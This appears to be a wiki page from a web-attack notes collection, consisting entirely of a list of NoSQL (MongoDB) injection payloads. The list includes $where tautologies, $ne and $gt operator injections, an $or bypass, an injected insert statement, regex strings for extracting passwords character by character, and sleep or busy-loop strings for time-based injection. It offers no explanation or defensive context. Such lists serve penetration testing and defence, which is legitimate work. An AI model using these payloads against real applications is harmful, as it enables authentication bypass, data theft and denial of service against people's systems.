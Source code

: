 ```yaml
---
title: Web Application Attacks
description: NOSQL Injection Payloads
published: true
date: 2021-01-21T03:43:15.323Z
tags: 
editor: markdown
dateCreated: 2021-01-21T03:34:38.781Z
---
```


# NOSQL Injection Payloads



true, $where: '1 == 1'
,$where: '1 == 1'
$where: '1 == 1'
',$where: '1 == 1'
1,$where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/./)//+%00
' && this.passwordzz.match(/./)//+%00
'%20%26%26%20this.password.match(/./)//+%00
'%20%26%26%20this.passwordzz.match(/./)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';sleep(5000);'
';sleep(5000);+'
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);